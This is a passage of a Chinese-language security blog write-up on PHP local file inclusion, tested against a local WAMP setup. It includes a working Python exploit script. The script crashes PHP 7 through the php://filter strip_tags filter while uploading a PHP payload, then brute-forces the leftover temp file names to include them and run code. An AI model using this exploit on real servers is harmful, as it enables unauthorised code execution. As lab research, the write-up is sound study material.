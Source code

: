 <img src='https://0xfay.github.io/public/image/200156.png'>

可以看到返回了whoami的命令结果。

- php崩溃 + lfi

用php5.6.40的版本进行了尝试，只有报错，没有崩溃。切换到了php7的版本后，确实造成了崩溃。观察了php_error.log，发现如下...

<img src='https://0xfay.github.io/public/image/crash.png'>

查询发现为耗尽内存而导致php崩溃。写了个脚本

```
import requests
import threading
import io
import time

def write(session):
    i=0
    while i<1000:
        i=i+1
        f = io.BytesIO(b'a' * 1024 * 50+b'<?php phpinfo();?>')
        resp = session.post( 'http://127.0.0.1/baohan.php?file=php://filter/string.strip_tags/resource=12.txt', files={'file': ('1.txt',f)} )

def getshell(num):
    time.sleep(30)
    num=int(num)-1
    namelist=[]
    for i in range(4096*num+1,4096*(num+1)+1):
        num=hex(i).replace('0x','')
        namelist.append(num)
    #print(namelist)
    error='failed to open stream'
    for t in namelist:
        target='http://127.0.0.1/baohan.php?file=g:/wamp64/tmp/php'+t+'.tmp'
        print('[+]start:'+target)
        r=requests.get(target)
        if 'phpinfo' in r.text:
            print('[+]got it!you can see it at:\n'+target)
            break
        else:
            continue


if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,40): 
            threading.Thread(target=write,args=(session,)).start()
    event.set()

    for i in range(1,17):
        threading.Thread(target=getshell,args=(i,)).start()
```
